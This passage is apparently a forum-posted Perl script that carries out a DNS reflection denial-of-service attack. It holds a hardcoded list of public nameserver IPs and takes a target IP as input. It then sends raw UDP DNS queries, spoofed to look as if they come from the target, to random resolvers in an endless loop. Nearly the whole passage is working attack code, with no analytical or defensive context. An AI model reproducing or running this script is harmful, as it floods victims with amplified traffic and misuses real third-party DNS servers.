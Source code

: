                    &quot;143&#46;166&#46;83&#46;13&quot;, &quot;209&#46;78&#46;77&#46;2&quot;, &quot;8&#46;4&#46;80&#46;15&quot;, &quot;216&#46;213&#46;88&#46;50&quot;,
                   &quot;64&#46;7&#46;203&#46;250&quot;, &quot;66&#46;165&#46;186&#46;15&quot;, &quot;64&#46;7&#46;203&#46;251&quot;, &quot;66&#46;165&#46;186&#46;16&quot;,
                   &quot;209&#46;162&#46;192&#46;4&quot;, &quot;209&#46;200&#46;46&#46;12&quot;, &quot;69&#46;42&#46;71&#46;212&quot;, &quot;209&#46;200&#46;46&#46;12&quot;,
                   &quot;69&#46;42&#46;71&#46;212&quot;, &quot;212&#46;112&#46;231&#46;183&quot;, &quot;212&#46;124&#46;35&#46;14&quot;, &quot;207&#46;254&#46;41&#46;30&quot;,
                   &quot;204&#46;141&#46;20&#46;253&quot;, &quot;204&#46;141&#46;20&#46;193&quot;, &quot;195&#46;92&#46;253&#46;2&quot;, &quot;209&#46;132&#46;176&#46;167&quot;,
                   &quot;66&#46;55&#46;68&#46;10&quot;, &quot;66&#46;55&#46;68&#46;11&quot;, &quot;66&#46;175&#46;230&#46;5&quot;, &quot;66&#46;175&#46;230&#46;10&quot;,
                   &quot;74&#46;84&#46;206&#46;221&quot;, &quot;74&#46;84&#46;206&#46;132&quot;, &quot;64&#46;58&#46;142&#46;2&quot;, &quot;64&#46;58&#46;142&#46;3&quot;); #52 entries&#46;

my $reflectors = &quot;51&quot;; # Number of entries in @nameservers, minus one&#46;
my $debug = 1; # Change to 0 if you don't wanna have your console flooded&#46;

##########################
# END USER CONFIGURATION #
##########################
my $str;
my $name;
my $src_ip;
my $reflector;
$src_ip = $ARGV&#91;0&#93;;

if ($ARGV&#91;0&#93; eq '') { print &quot;Usage&#58; &quot; &#46; $0 &#46; &quot; &lt;IP&gt;\n&quot;; exit(0); }
print (&quot;Hitting $ARGV&#91;0&#93;\n&quot;);

for (my $i=0; $i &lt; 256; $i++) {
    # Make DNS packet
    my $dnspacket = new Net&#58;&#58;DNS&#58;&#58;Packet($str, &quot;A&quot;, &quot;IN&quot;);
    my $dnsdata = $dnspacket-&gt;data;
    my $sock = new Net&#58;&#58;RawIP({udp=&gt;{}});
    # send packet
    $str = @name&#91;int rand($names)&#93;;                            # Select entry from @name
    $reflector = $nameservers&#91;int rand($reflectors)&#93;;          # Select entry from @nameservers
    $sock-&gt;set({ip =&gt; {
                saddr =&gt; $src_ip, daddr =&gt; &quot;$reflector&quot;, frag_off=&gt;0,tos=&gt;0,id=&gt;1565},
                udp =&gt; {source =&gt; 53,
                dest =&gt; 53, data=&gt;$dnsdata
                } });
    $sock-&gt;send;
    if ($debug eq &quot;1&quot;) { print &quot;Me -&gt; &quot; &#46; $reflector &#46; &quot;(DNSing &quot; &#46; $str &#46; &quot;)&quot; &#46; &quot; -&gt; &quot; &#46; $src_ip &#46; &quot; \n&quot;; }
    $i = 0;
}
exit(0);
[/code:3lef6qmw]
